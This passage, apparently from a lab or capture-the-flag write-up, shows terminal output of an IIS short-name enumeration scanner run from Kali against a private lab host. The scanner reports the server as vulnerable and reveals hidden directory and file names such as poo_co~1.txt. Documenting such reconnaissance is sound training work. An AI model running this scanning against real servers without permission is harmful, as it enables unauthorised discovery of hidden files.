 ```
[+] /dev/dca66d38fd916317687e1390a420c3fc/ds_sto~1	[scan in progress]
[+] Directory /dev/dca66d38fd916317687e1390a420c3fc/ds_sto~1	[Done]
----------------------------------------------------------------
Dir:  /dev/dca66d38fd916317687e1390a420c3fc/ds_sto~1
----------------------------------------------------------------
1 Directories, 0 Files found in total
Note that * is a wildcard, matches any character zero or more times.
root@kali:~/IIS_shortname_Scanner# python iis_shortname_Scan.py http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1
Server is vulnerable, please wait, scanning...
[+] /dev/304c0c90fbc6520610abbf378e2339d1/d~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/ds~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/ds_~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/ds_s~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/ds_st~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/ds_sto~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/ds_sto~1	[scan in progress]
[+] Directory /dev/304c0c90fbc6520610abbf378e2339d1/ds_sto~1	[Done]
----------------------------------------------------------------
Dir:  /dev/304c0c90fbc6520610abbf378e2339d1/ds_sto~1
----------------------------------------------------------------
1 Directories, 0 Files found in total
Note that * is a wildcard, matches any character zero or more times.
```

```
root@kali:~/IIS_shortname_Scanner# python iis_shortname_Scan.py http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db
Server is vulnerable, please wait, scanning...
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/p~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/po~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_c~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.t*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.tx*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.txt*	[scan in progress]
[+] File /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.txt*	[Done]
----------------------------------------------------------------
File: /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.txt*
----------------------------------------------------------------
0 Directories, 1 Files found in total
Note that * is a wildcard, matches any character zero or more times.

root@kali:~/IIS_shortname_Scanner# python iis_shortname_Scan.py http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/db
Server is vulnerable, please wait, scanning...
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/p~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/po~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_c~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.t*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.tx*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt*	[scan in progress]
[+] File /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt*	[Done]
----------------------------------------------------------------
File: /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt*
----------------------------------------------------------------
0 Directories, 1 Files found in total
Note that * is a wildcard, matches any character zero or more times.
```